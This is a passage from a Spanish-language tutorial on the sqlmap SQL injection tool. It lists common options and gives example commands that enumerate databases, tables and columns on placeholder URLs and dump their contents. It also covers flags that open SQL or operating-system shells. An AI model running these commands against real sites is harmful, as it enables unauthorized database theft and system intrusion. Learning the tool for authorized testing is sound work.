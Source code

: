### 6.1 Sintaxis general
- Comando base: `python sqlmap.py -u "URL" [opciones]`.
- Ejemplo: `python sqlmap.py -u "http://example.com/page?id=1"`.

### 6.2 Opciones comunes
- `-hh`: Para obtener todas las opciones posibles.
- `-u`: Especifica la URL objetivo.
- `--dbs`: Enumera las bases de datos disponibles.
- `--tables`: Lista las tablas de una base de datos.
- `--dump`: Extrae los datos de una tabla.
- `--schema`: permite obtener información sobre la estructura de la base de datos, como bases de datos, tablas, columnas.


---


### 6.3 Ejemplos prácticos:

```bash
# Lista de bases de datos detectadas (ej. `information_schema`, `usuarios`)
python sqlmap.py -u "http://example.com/page?id=1" --dbs

# Enumerar tablas
sqlmap -u "http://ejemplo.com/pagina.php?id=1" -D <nombre_bd> --tables

# Enumerar columnas
sqlmap -u "http://ejemplo.com/pagina.php?id=1" -D <nombre_bd> -T <nombre_tabla> --columns

# Extraer datos
sqlmap -u "http://ejemplo.com/pagina.php?id=1" -D <nombre_bd> -T <nombre_tabla> -C <columna1,columna2> --dump
```

---

## 7. Funcionalidades avanzadas

### 7.1 Detección automática
- `--level`: Nivel de profundidad en las pruebas (1-5).
- `--risk`: Nivel de riesgo en las pruebas (1-3).

---

### 7.2 Extracción de datos
- `--dump-all`: Descarga toda la base de datos.
- `--sql-shell`: Abre una shell SQL interactiva.
- `--os-shell`: Obtener una shell del sistema operativo.
- `-r`: Cargar una petición HTTP desde un archivo. 
- `--data`: Enviar datos POST. 
- `--cookie`: Especificar cookies.
- `--proxy`: Utilizar un proxy.
- `--batch`: Modo automático.
- `-p`: indica el parámetro que es vulnerable
-  `--technique`: indica la técnica a emplear, por ejemplo, inyecciones basadas en booleanos (B) o usar UNION (U).

---

[^1]: En kali linux ya viene instalado.